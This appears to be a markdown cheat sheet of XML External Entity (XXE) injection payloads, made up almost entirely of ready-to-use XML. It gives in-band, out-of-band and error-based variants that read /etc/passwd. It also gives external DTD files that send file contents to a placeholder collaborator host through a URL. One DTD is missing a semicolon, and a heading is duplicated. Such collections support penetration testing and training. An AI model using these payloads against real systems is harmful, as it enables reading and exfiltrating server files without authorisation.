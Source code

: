 ## XXE Payloads
### Inband XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Inband XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Out of band XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://BURP_COLLABORATOR"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Out of band XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://BURP_COLLABORATOR"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Error based XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://SERVER/malicious.dtd">]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Error based XXE with parameter entity(inband)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://SERVER/malicious.dtd"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil
```
### ### Error based XXE with parameter entity(out of band)[Recieving response on burp collobarotor]
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```